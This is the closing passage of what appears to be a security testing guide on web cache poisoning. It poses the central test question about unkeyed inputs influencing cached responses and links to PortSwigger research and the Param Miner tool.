

The most important question during testing is:

> **Can I influence a cacheable response using an input that the cache does not distinguish?**

If the answer is yes, the next step is to prove that the resulting response is actually stored and served to a clean request.
</Callout>

<CardGroup cols={2}>
  <Card title="PortSwigger Web Security Academy" href="https://portswigger.net/web-security/web-cache-poisoning">
    Web Cache Poisoning
  </Card>
  <Card title="PortSwigger Research" href="https://portswigger.net/research/web-cache-poisoning">
    Web Cache Poisoning
  </Card>
  <Card title="PortSwigger Param Miner" href="https://github.com/PortSwigger/param-miner">
    GitHub Repository
  </Card>
  <Card title="PortSwigger Research" href="https://portswigger.net/research/web-cache-deception">
    Web Cache Deception research
  </Card>
</CardGroup>